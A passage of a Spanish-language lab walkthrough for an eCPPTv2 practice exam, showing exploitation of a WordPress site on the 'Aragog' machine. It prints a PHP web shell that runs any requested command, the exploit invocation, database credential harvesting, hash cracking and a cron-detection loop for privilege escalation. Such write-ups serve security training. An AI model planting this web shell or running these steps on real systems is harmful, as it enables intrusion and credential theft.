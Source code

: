 Para explotarlo, se copiará el script de python y se creará un archivo “payload.php” con el siguiente contenido:

```bash
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Después de ejecutar el script, se proporcionará la ruta en donde se insertó el payload.php en la web.

```bash
python3 exploit.py http://wordpress.aragog.hogwarts/blog
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 15.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 16.png)

## Escalada de privilegios (Aragog)

Una vez dentro de la máquina, se puede ver que esta tiene dos interfaces de red, esto significa que podría tener conexión con otras máquinas o redes.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 17.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 18.png)

Enumerando más el sistema, se pueden ver más usuarios y un archivo de configuración “wp-config.php” en el que figura otro archivo de configuración el cual contiene credenciales de root para la base de datos.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 19.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 20.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 21.png)

En la base de datos se encontraron credenciales del usuario hadrid98 y su contraseña está hasheada pero era débil y se pudo crackea con JohnTheRipper.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 22.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 23.png)

Con esto se obtiene el primer horcrux.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 24.png)

Ahora haciendo uso del siguiente script para detectar tareas cron, se puede ver que el usuario root está ejecutando cada cierto tiempo el archivo “/opt/.backup.sh”.

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done
```
